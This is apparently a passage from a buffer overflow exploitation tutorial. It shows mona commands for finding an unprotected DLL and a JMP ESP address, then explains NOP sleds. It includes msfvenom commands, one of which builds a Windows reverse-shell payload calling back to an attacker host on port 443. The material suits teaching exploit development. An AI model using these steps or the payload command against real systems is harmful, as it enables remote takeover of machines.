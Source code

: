 Command:

!mona modules

It will list all the dll files currently in use and their safety flags.

![](https://www.cobalt.io/hs-fs/hubfs/Screenshot%202023-04-17%20at%201.33.31%20PM.png?width=693\&height=363\&name=Screenshot%202023-04-17%20at%201.33.31%20PM.png)

4\)Then we will choose R.dll file, which is used by our vulnerable application and doesn't have any protection.

**Finding OP code for JMP ESP**

Now we will find the address pushed on the stack when R.dll is called in the application. For that, we have to run the following command:

!mona find -s "\xff\xe4" -m R.dll

<figure><img src="../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

![](https://www.cobalt.io/hs-fs/hubfs/Screenshot%202023-04-17%20at%201.33.53%20PM.png?width=706\&height=231\&name=Screenshot%202023-04-17%20at%201.33.53%20PM.png)

#### Generate payload (x86/shikata\_ga\_nai )

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.8 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x25\x26\x2b\x3d" -e x86/shikata_ga_nai -f c
msfvenom -a x86 — platform Windows -p windows/exec cmd=notepad.exe -e x86/alpha_upper -b ‘\x00’ -f c
```

**What is NOP sled characters?**

A **NOP (No Operation)** sled is a sequence of **NOP** instructions in machine code that does nothing when executed. In a buffer overflow attack, a **NOP** sled is a filler between the injected malicious payload and the return address the attacker wants to overwrite in the vulnerable program's stack.

The purpose of an **NOP** sled is to provide a predictable and controllable path for the program's execution to reach the injected malicious payload. When a buffer overflow occurs, the excess data written to the buffer can overwrite adjacent data on the stack, including the return address. The attacker can use an **NOP** sled to increase the chances that the overwritten return address will point to the start of the **NOP** sled, leading to the execution of the malicious payload.

Here are some examples of **NOP** sleds for different architectures:

**x86 (32-bit):** The x86 architecture uses the 0x90 instruction to represent a NOP. A NOP sled for x86 can be represented as a sequence of 0x90 instructions.
